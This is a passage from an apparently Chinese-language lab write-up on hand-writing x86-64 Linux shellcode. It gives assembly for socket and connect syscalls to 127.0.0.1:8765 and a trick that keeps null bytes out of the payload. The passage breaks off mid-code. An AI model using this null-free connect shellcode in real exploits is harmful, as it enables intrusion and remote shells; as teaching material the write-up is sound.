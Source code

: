             xor rdi, rdi
            mov dil, 0x2

            xor rsi, rsi
            mov sil, 0x1

            xor rdx, rdx

            syscall
            mov r8, rax
        """
        ```
    2. Connect
        這邊主要需要觀察protocol怎麼包，首先我們知道第一個參數是存\$rdi，也就是存上一個syscall的return value存起來的\$r8，至於\$rsi的info address，其內容應該怎麼包含甚麼呢?我們先看一下[linux x86-64 syscall](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)中的說明
        ![image](https://hackmd.io/_uploads/BktiY2e8a.png)
        他所需的是`struct sockaddr_in info;`，而實際去看看sockaddr_in會發現他的結構如下([csdn post](https://blog.csdn.net/dongyanxia1000/article/details/80683738)):
        ```
        struct sockaddr_in {
                short   sin_family;         //address family
                u_short sin_port;           //16 bit TCP/UDP port number
                struct  in_addr sin_addr;   //32 bit IP address
                char    sin_zero[8];        //not use, for align
        };
        ```
        就會對應到底下註解的地方，包含IP / Post / Internet Family之類的，所以我們就可以按照這個structure建構出來，short是2 bytes，而根據前面的byte code會發現`AF_INET`是\x0002，也就是兩個bytes，第二個是port也是兩個bytes，8765轉成hex就是0x223d；最後一個是IP address，總共是4 bytes的in_addr structure，如果想詳細了解in_addr的結構可以看[MSDN](https://learn.microsoft.com/zh-tw/windows/win32/api/winsock2/ns-winsock2-in_addr?source=docs)，但具體來說就是把`127.0.0.1`→`7f000001`，所以全部貼在一起並且轉成little endian的話就會變成==0x100007f3d220002==，但有一個非常大的問題，如果直接把該值push進到stack並取\$rsp放到\$rsi的話，整個流程會有太多的\x00，因此@cs-otaku提供了一個非常有創意的想法，就直接用扣的，反正只要最後放到stack的值是對的就好了
        ```python
        # struct sockaddr_in info;
        # info.sin_family = AF_INET;
        # info.sin_addr.s_addr = inet_addr("127.0.0.1");
        # info.sin_port = htons(8765);
        # connect(fd, (struct sockaddr *)&info, sizeof(info));
        connect = """
            xor rax, rax
            mov al, 0x2a

            mov rdi, r8
